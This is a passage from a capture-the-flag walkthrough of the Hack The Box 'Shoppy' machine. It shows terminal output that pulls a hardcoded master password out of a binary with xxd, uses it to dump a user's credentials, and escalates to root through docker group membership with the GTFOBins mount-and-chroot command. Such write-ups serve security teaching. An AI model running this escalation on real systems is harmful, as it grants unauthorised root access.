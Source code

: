 
### XXD
```bash
┌──(root㉿kali)-[/media/sf_Downloads/kali-backups/htb-walkthrough/shoppy]
└─# xxd password-manager|less

ENTER "/" to find mode

00002020: 7061 7373 776f 7264 206d 616e 6167 6572  password manager
00002030: 2100 0000 0000 0000 506c 6561 7365 2065  !.......Please e
00002040: 6e74 6572 2079 6f75 7220 6d61 7374 6572  nter your master
00002050: 2070 6173 7377 6f72 643a 2000 0053 0061   password: ..S.a
00002060: 006d 0070 006c 0065 0000 0000 0000 0000  .m.p.l.e........
```


### Get Creds

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```


### Privilege Escalate

Switch User to `deploy`
```bash
jaeger@shoppy:~$ su - deploy
Password: 
$ 
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
$ bash
deploy@shoppy:~$ 
```
- It's in docker group

```bash
$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
```

Follow GtfoBins docker priv esc
https://gtfobins.github.io/gtfobins/docker/

```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)

# cat /root/root.txt
c3e748b6e9f646db850edb0defa3fe08
```